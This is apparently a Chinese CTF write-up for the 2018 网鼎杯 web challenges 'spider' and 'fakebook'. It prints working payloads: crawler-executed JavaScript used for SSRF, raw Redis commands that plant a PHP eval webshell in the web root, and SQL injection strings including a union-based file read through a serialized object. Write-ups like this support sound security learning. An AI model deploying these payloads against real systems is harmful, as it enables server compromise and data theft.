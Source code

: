```yaml
---
title: 网鼎杯writeup-web
date: 2018-08-21 09:38:33
tags:
	- ctf
	- writeup
---
```


# 前言

感觉又是一对web狗极度不友好的比赛，一开始网络环境都是奔溃的，正紧能做题已经是最后两个半小时了。第二道题还是最后一个半小时放出来的，相当难受了。（i春秋真的可以升级下服务器了。。。

不过spider这道反日爬虫的题目感觉还是很有意思的，加上最近刚学的xss和redis，决定还是好好复现一下



# spider

题目给了提示说是动态爬虫，一开始对这个不是很了解，大意应该就是自带js解析，类似于浏览器会自动加载js，然后再抓取里面的内容。毕竟这年头ajax那么流行，只抓纯html页面怕是没什么内容。

可以写一个简单的测试样例

```html
<a id="a">123</a>
<script>
	var a = document.getElementById("a");
	a.innerHTML = 'test';
</script>
```

将这个html上传之后，可以看到获取到`a`标签内部的元素变成了`test`

![](网鼎杯writeup-web\1.png)

这样一来，就可以利用ajax请求，形成ssrf



由于robots.txt里面有个`/get_sourcecode`的提示，但是直接访问的时候会显示只能从127.0.0.1访问

于是就先利用爬虫获取下这个页面

```html
<a id="a">123</a>
<script>
	var xmlhttp = new XMLHttpRequest();
	xmlhttp.onreadystatechange=function(){
		if (xmlhttp.readyState==4 && xmlhttp.status==200)
		{
			document.getElementById("a").innerHTML =  xmlhttp.responseText;
		}
	}
	xmlhttp.open("GET","/get_sourcecode");
	xmlhttp.send();
</script>
```

这样一来就获取到了源码

![](网鼎杯writeup-web\2.png)

（吐槽一下，那时候和队友就差不多做到这里，由于加了个btoa，然后返回的页面中有中文，就一直返回NULL，相当的难受了

源码里面的逻辑感觉没什么好看的，主要就是一小段

```python
#hint
if 'level=low_273eac1c' not in content and 'dbfilename' in content.lower():
    return render_template('index.html', msg=u'Warning: 发现恶意关键字')
#hint
```

就是在html文本中加入`level=low_273eac1c`就可以绕过恶意关键字的检测

题目也有提示`redis`，接下来就是利用这个ssrf来攻击redis了

这里有两个小trick

- redis是简单的数据流格式，以一行数据当作一条命令执行
- 同源策略是浏览器对对方返回的数据进行了拦截，但请求实际已经发出



这样，就可以利用ajax传送一个post数据给`127.0.0.1:6379`，从而盲打redis

提示中8000端口存在apache，于是接下来就利用redis往`/var/www/html`中写入webshell

为了能让我们的数据有回显，需要加上`header('Access-Control-Allow-Origin:*')`来防止同源策略阻止数据包的返回

```html
level=low_273eac1c
<a id="a">123</a>
<script>
	var xmlhttp = new XMLHttpRequest();
	xmlhttp.open("POST","http://127.0.0.1:6379");
	xmlhttp.send("flushall"+"\n"+"config set dir /var/www/html/"+"\n"+"config set dbfilename shell.php"+"\n"+'set 1 "\\n\\n<?php header(\'Access-Control-Allow-Origin:*\'); eval($_GET[0]);?>\\n\\n"'+"\n"+"save"+"\n"+"quit");
</script>
```

然后读取`flag.php`

```html
<a id='test'>123</a>
<script>
	var xmlhttp = new XMLHttpRequest();
	xmlhttp.onreadystatechange=function()
	{
	        document.getElementById("test").innerHTML =  xmlhttp.responseText;
	}
	xmlhttp.open("GET","http://127.0.0.1:8000/shell.php?0=echo%20file_get_contents('flag.php');");
	xmlhttp.send();
</script>
```

就可以获取到flag了

![](网鼎杯writeup-web\3.png)

自己后期在本地分析的时候，自己构造的数据包在本地可以成功，然而在比赛环境中总是写入不了shell，就很苦恼。折磨了好久，就暂时先放会把，后续有空再慢慢研究

总而言之感觉这道题的思路还是很巧妙的，而且怎么感觉最近redis的题目有点多哈。。



# fakebook

一开始扫出了`flag.php`和`user.php.bak`

由于注册时会自动访问你的博客内容，我和队友一致认为是ssrf任意文件读取

何况`user.php.bak`中还给了防御的正则，于是就把精力放在了绕正则上

最后比完老哥们说是到注入==、，其实一开始是有发现view.php会报错，但是没往注入想

然后几乎约等于没过滤，不能用`union`就用报错，（感觉自己动不动就盲注的习惯要改改了，第一反应都是盲注

然后payload什么的也很简单

```
http://837d5d8ffa2f44df8d886d0ce5324565b6dd49a0904e40c7.game.ichunqiu.com/view.php
?no=-1 or (updatexml(1,concat('~',substr((select data from users),1,50),'~'),1))#
```

数据库里找不到flag，后来想想是不是要新增一条`blog=file:///var/www/html/flag.php`的用户，但是好像没找到insert或者update注入的点

等下师傅们writeup把。。

------

好吧，看完了writeup 原来可以用`/**/`的方式绕过拦截`union`的waf，这样的话思路就比较清晰了。

payload

```
http://f37db81cf64d47b6b64c8f50bb032d2abfd66b829a434eae.game.ichunqiu.com/view.php
?no=-1/**/union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:18;s:4:"blog";s:29:"file:///var/www/html/flag.php";}' #
```

就可以进行任意文件的读取了

![](网鼎杯writeup-web\4.png)



# 总结

感觉比赛的时候思路还是比较闭塞，没有打开。而且确实和大佬们有点差距，好好学习去了。。